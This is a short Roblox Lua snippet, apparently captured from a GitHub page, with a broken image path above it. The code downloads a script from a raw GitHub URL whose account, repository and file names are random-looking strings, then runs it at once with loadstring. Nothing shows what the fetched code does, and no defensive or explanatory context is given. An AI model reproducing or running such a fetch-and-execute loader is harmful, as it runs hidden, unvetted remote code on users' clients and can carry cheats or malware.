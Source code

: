 local url = "https://raw.githubusercontent.com/jehheb12u11aaaaz/1z1rewgy4wer-tgerjfuwqehuofhweuifhegryhr4tyhr/main/mmtfwerhfugbr3gfbfbi3refgiergfberigfer"
local scriptcontent = game:HttpGet(url)

local scriptload = loadstring(scriptcontent)
scriptload()
